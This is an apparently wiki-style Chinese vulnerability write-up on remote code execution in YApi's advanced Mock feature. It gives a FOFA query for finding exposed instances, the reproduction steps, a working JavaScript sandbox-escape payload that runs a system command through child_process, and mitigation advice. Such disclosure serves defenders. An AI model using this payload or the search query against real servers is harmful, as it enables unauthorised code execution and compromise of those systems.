






# YApi 高级 Mock 远程代码执行漏洞

## 漏洞描述

YAPI接口管理平台是国内某旅行网站的大前端技术中心开源项目，使用mock数据/脚本作为中间交互层，为前端后台开发与测试人员提供更优雅的接口管理服务，该系统被国内较多知名互联网企业所采用。

YApi 是高效、易用、功能强大的 api 管理平台。但因为大量用户使用 YAPI的默认配置并允许从外部网络访问 YApi服务，导致攻击者注册用户后，即可通过 Mock功能远程执行任意代码。

## 漏洞影响

> YApi

## FOFA

> app="YApi"

## 漏洞复现

注册页面如下：


随便注册一个号，然后进行登录，登录进去以后点击添加项目：



随便写一个项目名字，然后在项目里再点击添加接口：





创建好了以后进入设置，进入mock配置：



```
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("whoami").toString()
```

点击保存以后，然后再访问我们的mock地址：





> ##修复建议
该漏洞暂无补丁。

> 临时修复建议：

> 关闭YAPI用户注册功能，以阻断攻击者注册。
利用请求白名单的方式限制 YAPI 相关端口。
排查 YAPI 服务器是否存在恶意访问记录。